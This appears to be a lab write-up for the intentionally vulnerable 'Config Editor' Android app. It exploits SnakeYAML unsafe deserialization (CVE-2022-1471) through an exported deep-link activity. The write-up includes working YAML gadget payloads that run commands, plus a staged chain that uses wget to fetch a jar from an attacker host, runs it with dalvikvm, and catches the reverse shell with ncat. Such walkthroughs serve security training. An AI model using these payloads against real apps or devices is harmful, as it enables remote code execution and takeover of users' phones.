

# Config Editor

Achieve Remote Code Execution via a Config Editor app in Android by exploiting vulnerabilities in a third party library.

## Table of Contents

1. [Look Around](#look-around)
2. [Static Analysis](#static-analysis)
3. [Dynamic Analysis](#dynamic-analysis)
4. [Exploiting](#exploiting)
5. [Shell is the way](#shell-is-the-way)
6. [References](#references)

## Look Around

TL;DR

Upon the first launch, you'll be asked to grant permissions to manage external storage. This is necessary for the app to access files on your device's SD card.

The app features a simple interface with two buttons (Load and Save) and an empty text view.

When you click "Load," the file manager opens, displaying the contents of the SD card. Here, you'll see a file named example.yaml ready for you to select and load into the application.

You'll notice that the app is designed for parsing YAML files and potentially modifying them. Feel free to explore the loaded file and make any necessary changes.

After making modifications, simply click the "Save" button to store the changes back to the external storage.

## Static Analysis

After decompiling the application with `apktool -d ConfigEditor.apk`, we can examine the `AndroidManifest.xml` file to understand the application's structure and permissions.

### Permissions

+ READ_EXTERNAL_STORAGE, WRITE_EXTERNAL_STORAGE, MANAGE_EXTERNAL_STORAGE: These permissions allow the application to read from, write to, and manage files on external storage, such as the SD card. This enables the application to save and access files stored externally.

+ INTERNET: This permission allows the application to access the internet. It is typically used for network communication, enabling the application to connect to remote servers or services over the internet.

```xml
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
```

### Implicitly Exported Component

In this case, the application is implicitly exporting a component, specifically the `MainActivity`, which could allow access to it from external sources.

The application handles links with schemes `file://`, `http://`, and `https://`, as well as files with the `.yaml` extension. This implies that the `MainActivity` component may be invoked or accessed when these types of links or files are interacted with. This behavior could introduce security risks, especially if the `MainActivity` component performs sensitive operations or accesses sensitive data.

```xml
       <activity android:name="com.mobilehackinglab.configeditor.MainActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="file"/>
                <data android:scheme="http"/>
                <data android:scheme="https"/>
                <data android:mimeType="application/yaml"/>
            </intent-filter>
        </activity>
```

### MainActivity & yaml.load

Let's specifically examine what aspects of the code related to the `MainActivity` component should concern us.

The `loadYaml` function is of particular interest due to its usage of `Object deserializedData = yaml.load(inputStream);` internally.

Upon examining the imports in the application and its subdirectories, specifically `/org/yaml/snakeyaml`, we observe that the `load` method originates from SnakeYAML.

According to the documentation, `SnakeYAML is a YAML 1.1 processor designed for the Java Virtual Machine version 8 and above`.

Further research on SnakeYAML and deserialization reveals a vulnerability documented under `CVE-2022-1471`.

```txt
SnakeYaml's Constructor() class does not restrict types which can be instantiated during deserialization. Deserializing yaml content provided by an attacker can lead to remote code execution. We recommend using SnakeYaml's SafeConsturctor when parsing untrusted content to restrict deserialization. We recommend upgrading to version 2.0 and beyond.
```

I wasn't able to locate the exact version of SnakeYAML used in the application. However, upon searching for SnakeYAML's `SafeConstructor` in `/org/yaml/snakeyaml`, I found no occurrences. Therefore, I assumed it would be a good path to pursue for further investigation.

More CVE info:

+ [https://snyk.io/blog/snakeyaml-unsafe-deserialization-vulnerability/](https://snyk.io/blog/snakeyaml-unsafe-deserialization-vulnerability/)
+ [https://nvd.nist.gov/vuln/detail/CVE-2022-1471](https://nvd.nist.gov/vuln/detail/CVE-2022-1471)

## Dynamic Analysis

To test the functionality described so far, we can perform dynamic analysis. Here's how we can proceed:

```sh
# Create a YAML file
$ touch example.yaml
# Start a Python HTTP server listening on port 8080
$ python3 -m http.server 8080
# Simulate an HTTP connection with an YAML file using adb
$ adb shell am start -a android.intent.action.VIEW -d "http://$IP:8080/example.yaml" -n com.mobilehackinglab.configeditor/.MainActivity
```

This will trigger the MainActivity component of the `com.mobilehackinglab.configeditor` application to open and attempt to read the YAML file. If the YAML file is empty, the output will be empty as well.

## Exploiting

Now that we know we can load arbitrary YAML files via deeplinks, the next step is to find a gadget that allows us to execute system commands through deserialization. Fortunately, we find one in the path `/com/mobilehackinglab/configeditor/LegacyCommandUtil.java`, which allows us to execute system commands via deserialization.

```java
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```

Let's create a YAML file, `pwn.yaml`, as follows to test the actual execution of commands:

```yaml
pwn: !!com.mobilehackinglab.configeditor.LegacyCommandUtil [ "/bin/touch /data/data/com.mobilehackinglab.configeditor/pwn.txt" ]
```

We can test this RCE with the following commands:

```sh
# Start a Python HTTP server on port 8080 to serve files
$linux> python3 -m http.server 8080 # file pwn.yaml must be in the current directory
# Simulate an HTTP connection with the specified YAML file using adb
$linux> adb shell am start -a android.intent.action.VIEW -d  "http://$IP:8080/pwn.yaml" -n com.mobilehackinglab.configeditor/.MainActivity
# List the contents of the directory /data/data/com.mobilehackinglab.configeditor on the Android device
$linux> adb shell ls /data/data/com.mobilehackinglab.configeditor
output: pwn.txt # in listing file
```

<p align="center">

</p>

## Shell is the way

Running commands is nice, but what about a shell? <3 
Initially, I tried to execute the classic reverse shells that are publicly available, such as those found on [revshell](https://www.revshells.com/) or by uploading a compiled one in `C` (you can find an example in the current folder).

While exploring various possibilities, I came across this methodology on [malacupa.com](https://malacupa.com/2018/10/25/android-command-line-reverse-shell) which utilizes compiling Java code to be executed by ART/Dalvik on Android’s command line.

Initially it didn't seem to work with the tools in the 2018 writeup, so I decided to follow this approach to create a payload in the YAML file and unveil this beautiful approach, which would immediately give us a shell when opening the file, taking advantage of Android's `dalvikvm' CLI command.

```sh
# Compile AndroidReverseShell.java (is in this github folder) using Java compiler (javac) with release 17
javac --release 17 AndroidReverseShell.java
# Create a directory called classes
mkdir classes
# Convert .class files to .dex format using D8 (D8 is part of Android build tools)
/Path/to/Android/sdk/build-tools/33.0.2/d8 AndroidReverseShell.class --intermediate --file-per-class --output classes
# Rename AndroidReverseShell.dex to classes.dex
mv classes/AndroidReverseShell.dex classes/classes.dex
# Create a JAR file named reverse.jar containing the dex files
zip classes/reverse.jar classes/classes.dex
```

Create the shell.yaml file that will remotely download the `.jar` file and execute the process to receive the reverse shell.

```yaml
stage1: !!com.mobilehackinglab.configeditor.LegacyCommandUtil [ "wget $IP:8081/reverse.jar -O /data/data/com.mobilehackinglab.configeditor/reverse.jar" ]
stage2: !!com.mobilehackinglab.configeditor.LegacyCommandUtil [ "/system/bin/dalvikvm -cp /data/data/com.mobilehackinglab.configeditor/reverse.jar AndroidReverseShell" ]
```

Let's go

```sh
# Start a Python HTTP server to host the shell.yaml and reverse.jar files in  folder
python3 -m http.server 8081 
# Start a listener for the reverse shell on port 1337 in another tab
ncat -lnvp 1337 
# Emulate browser interaction by sending an intent to open the specified URL, load file and get rev shell
adb shell am start -a android.intent.action.VIEW -d "http://$IP:8081/shell.yaml" -n com.mobilehackinglab.configeditor/.MainActivity 
```

Video PoC:


## References

+ [https://snyk.io/blog/snakeyaml-unsafe-deserialization-vulnerability/](https://snyk.io/blog/snakeyaml-unsafe-deserialization-vulnerability/)
+ [https://nvd.nist.gov/vuln/detail/CVE-2022-1471](https://nvd.nist.gov/vuln/detail/CVE-2022-1471)
+ [android-command-line-reverse-shell](https://malacupa.com/2018/10/25/android-command-line-reverse-shell)
